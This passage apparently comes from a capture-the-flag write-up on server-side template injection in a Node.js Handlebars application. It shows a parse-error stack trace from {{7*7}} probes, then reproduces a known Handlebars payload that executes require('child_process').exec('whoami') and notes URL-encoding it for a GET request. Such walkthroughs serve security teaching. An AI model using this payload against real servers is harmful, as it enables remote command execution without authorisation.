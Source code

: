 After the intruder's attack is run we now can see that both `{{7*7}}` and `${{7*7}}` returned 500 Internal server err with the following:
```bash
Error: Parse error on line 1:
{{7*7}}
--^
Expecting &apos;ID&apos;, &apos;STRING&apos;, &apos;NUMBER&apos;, &apos;BOOLEAN&apos;, &apos;UNDEFINED&apos;, &apos;NULL&apos;, &apos;DATA&apos;, got &apos;INVALID&apos;
    at Parser.parseError (/opt/node-v19.8.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:267:19)
    at Parser.parse (/opt/node-v19.8.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:336:30)
    at HandlebarsEnvironment.parse (/opt/node-v19.8.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/base.js:46:43)
    at compileInput (/opt/node-v19.8.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/compiler.js:515:19)
    at ret (/opt/node-v19.8.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/compiler.js:524:18)
    at [eval]:5:13
    at Script.runInThisContext (node:vm:128:12)
    at Object.runInThisContext (node:vm:306:38)
    at node:internal/process/execution:83:21
    at [eval]-wrapper:6:24

Node.js v19.8.1
```

So on [hacktricks](https://hacktricks.boitatech.com.br/pentesting-web/ssti-server-side-template-injection) we search for `handlebars` 

And we copy the payload for handlebars:
```bash
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
But since we use the GET method we actually need url encoded version of it so we send the req with the url encoded version of the payload which is prefixed with whatever we want (and now we want with some random chars e.g.: `BBB`)
